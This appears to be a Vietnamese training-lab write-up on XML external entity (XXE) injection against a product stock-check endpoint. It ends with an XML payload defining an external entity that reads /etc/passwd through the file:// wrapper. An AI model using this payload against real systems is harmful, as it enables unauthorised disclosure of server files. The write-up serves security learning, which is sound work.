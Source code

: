 ![alt text](./img/lab1-1.png)

- Web sử dụng XML gửi yêu cầu ```checkstock``` với các thẻ ```"<productId>"``` và ```"<storeId>"```. Hệ thống thực hiện phân tích dữ liệu XML và trả kết quả là số lượng sản phẩm còn.

- Thử tự định nghĩa 1 entity với giá trị bất kì để thử:

![alt text](./img/lab1-2.png)

==>Giờ định nghĩa 1 external entity "&xxe;" với giá trị là nội dung file "/etc/passwd" qua wrapper "file://" , payload như sau:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId
</stockCheck>
```
